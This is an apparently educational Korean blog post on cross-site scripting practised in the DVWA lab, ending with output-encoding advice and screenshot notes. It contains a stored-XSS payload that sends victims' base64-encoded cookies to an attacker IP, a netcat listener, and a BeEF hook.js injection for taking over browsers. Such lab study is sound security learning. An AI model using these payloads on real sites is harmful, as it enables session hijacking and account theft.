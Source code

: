 ```yaml
---
layout: post
title: "XSS 공부"
date: 2025-09-28 17:00:00 +0900
categories: [웹 해킹]
---
```


### 1. 개요

XSS(Cross-Site Scripting)는 공격자가 웹 애플리케이션에 악성 스크립트를 삽입하여 다른 사용자의 브라우저에서 해당 스크립트가 실행되도록 만드는 공격이다. 이 공격은 [A03: Injection](https://hamap0.github.io/projects/owasp-top-10/2025/08/27/A03_Injection.html) 보고서에서 다룬 인젝션 공격의 한 종류이며, 주로 세션 쿠키 탈취 등에 사용된다.

---

### 2. 기본 유형 및 실습

#### **Reflected XSS (반사형)**
공격 스크립트가 URL 파라미터 등을 통해 서버로 전달된 후, 서버가 그 값을 응답 페이지에 그대로 포함하여 사용자에게 돌려줄 때 발생한다.

*   **DVWA 실습:**
    `XSS (Reflected)` 페이지에서 `name` 파라미터 값으로 `<script>alert('Reflected XSS')</script>`를 주입하면 서버 응답에 이 스크립트가 포함되어 경고창이 실행된다.

   ![XssReflected](/assets/images/Xss_1.png)

#### **Stored XSS (저장형)**
공격 스크립트가 게시판이나 방명록처럼 서버의 데이터베이스에 영구적으로 저장될 때 발생한다. 해당 페이지를 방문하는 모든 사용자가 공격의 영향을 받는다.

*   **DVWA 실습:**
    `XSS (Stored)` 페이지의 방명록에 `<script>alert('Stored XSS')</script>`를 포함한 메시지를 남기면 해당 스크립트가 데이터베이스에 저장된다. 이후 이 페이지를 방문하는 모든 사용자의 브라우저에서 경고창이 실행된다.

   ![XssStored](/assets/images/Xss_2.png)

---

### 3. 심화 활용: 쿠키 탈취

XSS 취약점은 사용자의 세션 쿠키를 탈취하여 계정을 도용하는 세션 하이재킹 공격에 사용될 수 있다.

#### **1. 공격자 리스너**
탈취한 쿠키를 수신하기 위해 공격자 PC에 서버가 필요하다. [보안 분석을 위한 리눅스 명령어 공부](https://hamap0.github.io/study/시스템-해킹/2025/09/14/보안-분석을-위한-리눅스-명령어-공부.html)에서 다룬 `netcat`을 이용해 특정 포트에서 연결을 대기하는 리스너를 실행할 수 있다.
```bash
# 80번 포트에서 연결을 대기하며 상세 정보를 출력
sudo nc -lvnp 80
```

#### **2. 쿠키 탈취 페이로드**
피해자의 브라우저에서 `document.cookie` 값을 읽어와 공격자 서버 `192.9.200.12`로 전송하는 스크립트이다.
```javascript
<script>
  document.location='http://192.9.200.12/?cookie=' + btoa(document.cookie);
</script>
```
*   `btoa()`: 쿠키 값에 포함될 수 있는 특수문자로 인해 URL이 깨지는 것을 방지하기 위해 Base64로 인코딩한다.

#### **3. 결과 확인**
이 페이로드를 Stored XSS 취약점이 있는 방명록에 삽입하면 해당 페이지를 방문하는 사용자의 브라우저는 스크립트를 실행한다. 그 결과 공격자의 `netcat` 리스너에는 피해자의 쿠키 값이 포함된 HTTP GET 요청이 수신된다.

   ![XssCookie](/assets/images/Xss_3.png)

### 4. 심화 활용 2: 브라우저 제어권 획득 (BeEF 연동)

XSS 공격의 파급력은 쿠키 탈취에 그치지 않는다. **BeEF(The Browser Exploitation Framework)**와 연동하면 피해자의 브라우저를 좀비처럼 제어하여 추가 공격을 수행할 수 있다.

#### **1. BeEF 실행 및 Hook URL 확인**
1.  공격자 PC에서 BeEF 프레임워크를 실행한다.
    ```bash
    sudo beef-xss
    ```
2.  BeEF의 관리자 페이지(UI)에 접속하여 로그인한다.
3.  관리자 페이지에 표시된 **Hook URL** (예: `<script src="http://192.9.200.12:3000/hook.js"></script>`)을 복사한다. 이 스크립트가 피해자의 브라우저를 제어하는 핵심 코드이다.

#### **2. Hook 스크립트 주입 (Stored XSS)**
1.  복사한 Hook URL 스크립트 전체를 Stored XSS 취약점이 있는 DVWA 방명록에 삽입하고 게시글을 등록한다.

#### **3. 브라우저 Hooking 및 제어**
1.  피해자가 해당 방명록 페이지를 방문하면 브라우저는 자신도 모르게 **`hook.js`** 스크립트를 실행하고 공격자의 BeEF 서버에 연결된다.
2.  공격자는 BeEF 관리자 페이지의 `Online Browsers` 목록에서 연결된 피해자의 브라우저(Hooked Browser)를 확인할 수 있다.
   ![XssBeef](/assets/images/Xss_4.png)
3.  공격자는 `Commands` 탭의 다양한 모듈을 사용하여 피해자 브라우저를 대상으로 추가 공격을 수행할 수 있다.
    *   **Get Cookies**: 피해자의 쿠키 정보를 가져온다.
    *   **Redirect Browser**: 피해자의 브라우저를 특정 피싱 사이트로 강제 이동시킨다.
    *   **Create Alert Dialog**: 피해자의 화면에 임의의 경고창을 띄운다.

---

### 5. 방어 방안: 출력 인코딩

XSS 공격의 근본적인 원인은 사용자가 입력한 데이터를 서버가 그대로 HTML의 일부로 해석하여 출력하기 때문이다. 이를 막는 가장 효과적인 방법은 **출력 인코딩(Output Encoding)**이다.

사용자가 입력한 문자열에 포함된 `<`, `>` 같은 특수문자를 브라우저가 HTML 태그로 해석하지 못하도록 아래와 같이 안전한 문자(HTML Entities)로 변환하여 출력해야 한다.
*   `<` → `&lt;`
*   `>` → `&gt;`

이렇게 인코딩된 문자열은 브라우저 화면에는 원래의 꺾쇠 기호로 보이지만 HTML 파서는 이를 태그의 시작과 끝이 아닌 단순한 텍스트로만 인식하므로 스크립트가 실행되지 않는다.

<hr class="short-rule">





### 시각 자료(이미지) 제작을 위한 스크립트

#### **이미지 1 제작 (Reflected XSS)**

1.  웹 브라우저에서 DVWA의 `XSS (Reflected)` 페이지로 이동합니다.
2.  입력창에 `<script>alert('Reflected XSS')</script>`를 입력하고 `Submit` 버튼을 클릭합니다.
3.  화면에 "Hello" 라는 문구와 함께 자바스크립트 경고창(alert)이 나타납니다.
4.  이 상태의 브라우저 화면 전체를 스크린샷으로 찍습니다.
5.  이미지 편집 프로그램을 사용하여 스크린샷을 엽니다.
6.  두 부분에 하이라이트를 적용합니다.
    *   **원인:** 브라우저 주소창의 URL에 포함된 스크립트 구문 (`?name=<script>...`)
    *   **결과:** 화면 중앙에 나타난 경고창(`Reflected XSS`)
7.  수정된 이미지를 저장하여 게시글에 삽입합니다.

#### **이미지 2 제작 (Stored XSS)**

1.  DVWA의 `XSS (Stored)` 페이지로 이동합니다.
2.  `Message` 입력창에 `<script>alert('Stored XSS')</script>`를 포함한 내용을 입력하고 `Sign Guestbook` 버튼을 클릭합니다.
3.  페이지가 새로고침되면서 방금 제출한 스크립트가 실행되어 경고창이 나타납니다.
4.  방명록 목록에 스크립트가 포함된 게시글이 보이고 동시에 경고창이 떠 있는 화면 전체를 스크린샷으로 찍습니다.
5.  이미지 편집 프로그램을 사용하여 스크린샷을 엽니다.
6.  두 부분에 하이라이트를 적용합니다.
    *   **원인:** 방명록에 저장되어 출력된 스크립트가 포함된 게시글
    *   **결과:** 그로 인해 실행된 경고창(`Stored XSS`)
7.  수정된 이미지를 저장하여 게시글에 삽입합니다.

#### **이미지 3 제작 (쿠키 값 수신)**

1.  (준비) **공격자 PC의 터미널**과 **피해자의 웹 브라우저**를 준비합니다.
2.  **공격자 PC 터미널**에서 `sudo nc -lvnp 80` 명령어를 실행하여 리스너를 시작합니다.
3.  **피해자의 웹 브라우저**에서 DVWA의 `XSS (Stored)` 페이지로 이동하여 쿠키 탈취용 `<script>` 페이로드를 방명록에 입력하고 `Sign Guestbook` 버튼을 클릭합니다.
4.  **공격자 PC 터미널**을 확인하면 브라우저로부터의 HTTP 요청이 수신되어 아래와 같은 텍스트가 출력됩니다.
    ```
    GET /?cookie=c2VjdXJpdHk9bG93OyBQSFBTRVNTSUQ9... HTTP/1.1
    Host: 192.9.200.12
    ...
    ```
5.  이 HTTP 요청 정보가 모두 출력된 **공격자 PC 터미널** 화면 전체를 스크린샷으로 찍습니다.
6.  이미지 편집 프로그램을 사용하여 `/?cookie=` 뒤에 따라오는 Base64로 인코딩된 긴 문자열 부분에 명확하게 하이라이트를 적용합니다.
7.  수정된 이미지를 저장하여 게시글에 삽입합니다.

#### **이미지 4 제작 (BeEF 연동 성공)**

이 이미지는 Stored XSS를 통해 피해자의 브라우저 제어권을 획득한 상황을 보여준다.

1.  **BeEF 관리자 페이지 캡처:**
    *   `4. 심화 활용 2`의 3단계 과정에서, 피해자의 브라우저가 `Online Browsers` 목록에 나타난 BeEF 관리자 페이지 화면을 스크린샷으로 찍는다.
2.  **명령 실행 결과 캡처:**
    *   `Commands` 탭에서 `Get Cookies`나 `Create Alert Dialog` 같은 간단한 명령을 실행하고, 그 결과가 표시된 화면을 스크린샷으로 찍는다.
3.  **최종 이미지 편집:**
    *   두 개의 스크린샷을 하나로 합치거나, 가장 핵심적인 화면(피해자 브라우저가 목록에 나타난 화면)을 선택한다.
    *   이미지에서 `Online Browsers` 목록에 나타난 피해자의 IP 주소와 OS/브라우저 아이콘에 명확한 하이라이트를 적용한다.
    *   만약 명령 실행 결과 이미지를 사용한다면, 실행한 `Module Name`과 그 `Command Results` 부분에 하이라이트를 적용한다.
    *   수정된 이미지를 게시글에 삽입한다.